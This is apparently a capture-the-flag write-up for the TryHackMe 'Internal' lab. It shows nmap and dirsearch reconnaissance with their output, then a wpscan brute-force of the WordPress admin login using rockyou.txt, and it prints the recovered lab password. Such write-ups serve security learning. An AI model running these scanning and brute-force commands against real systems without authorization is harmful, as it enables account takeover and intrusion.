


# Internal
* IP = 10.10.103.219
* Add to /etc/hosts as Internal.thm

## Enumerating And Scanning:
- Nmap scan to discover open ports: `nmap -sV -sC -O -p 21,22,80,8080,139,143,445,443,25,110 internal.thm`
- **nmap Scan Results:**
```
PORT     STATE  SERVICE      VERSION
21/tcp   closed ftp
22/tcp   open   ssh          OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
|_  256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
25/tcp   closed smtp
80/tcp   open   http         Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
110/tcp  closed pop3
139/tcp  closed netbios-ssn
143/tcp  closed imap
443/tcp  closed https
445/tcp  closed microsoft-ds
8080/tcp closed http-proxy
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).

Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.00 seconds
```
- We can see there is a open `http` on port `80`
- Also note of `8080/tcp closed http-proxy`

- dirsearch to search for hidden directories and files on the web server: `dirsearch -u internal.thm -x 400,500 -r -t 100`
- **dirsearch Scan Results:**
```
[14:08:56] Starting: 
[14:09:03] 403 -  277B  - /.ht_wsr.txt                                      
[14:09:03] 403 -  277B  - /.htaccess.bak1                                   
[14:09:03] 403 -  277B  - /.htaccess.save                                   
[14:09:03] 403 -  277B  - /.htaccess_orig
[14:09:03] 403 -  277B  - /.htaccess.orig                                   
[14:09:03] 403 -  277B  - /.htaccess_sc
[14:09:03] 403 -  277B  - /.htaccessBAK                                     
[14:09:03] 403 -  277B  - /.htaccess_extra
[14:09:03] 403 -  277B  - /.htaccess.sample
[14:09:03] 403 -  277B  - /.htaccessOLD
[14:09:03] 403 -  277B  - /.htm                                             
[14:09:03] 403 -  277B  - /.html
[14:09:03] 403 -  277B  - /.htaccessOLD2                                    
[14:09:03] 403 -  277B  - /.htpasswd_test                                   
[14:09:03] 403 -  277B  - /.httr-oauth
[14:09:03] 403 -  277B  - /.htpasswds
[14:09:04] 403 -  277B  - /.php                                             
[14:09:12] 301 -  311B  - /blog  ->  http://internal.thm/blog/              
[14:09:12] 200 -    2KB - /blog/wp-login.php                                
[14:09:13] 200 -   18KB - /blog/                                            
[14:09:20] 301 -  317B  - /javascript  ->  http://internal.thm/javascript/  
[14:09:26] 301 -  317B  - /phpmyadmin  ->  http://internal.thm/phpmyadmin/  
[14:09:27] 200 -    3KB - /phpmyadmin/doc/html/index.html                   
[14:09:27] 200 -    3KB - /phpmyadmin/                                      
[14:09:27] 200 -    3KB - /phpmyadmin/index.php                             
[14:09:30] 403 -  277B  - /server-status/                                   
[14:09:30] 403 -  277B  - /server-status                                    
[14:09:37] 200 -    2KB - /wordpress/wp-login.php                           
[14:09:38] 404 -   51KB - /wordpress/                                       
                                                                             
Task Completed
```
- Under the directory `http://internal.thm/blog/wp-login.php` we have a login page for `wordpress`


- Basic enumeration on the page with the login credentials using `admin:admin` can see that there is a user called admin



- With this information lets try and run a `wpscan` to find the password
- `wpscan --url http://internal.thm/blog/wp-login.php --usernames admin --passwords rockyou.txt -t 100`
- **wpscan Scan Results:**
'''
[!] Valid Combinations Found:
 | Username: admin, Password: my2boys

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Tue Nov 19 14:42:53 2024
[+] Requests Done: 4219
[+] Cached Requests: 4
[+] Data Sent: 1.487 MB
[+] Data Received: 20.636 MB
[+] Memory used: 320.254 MB
[+] Elapsed time: 00:02:17
'''

'''
We are able to find that the login credentials are **Username: admin, Password: my2boys**
'''
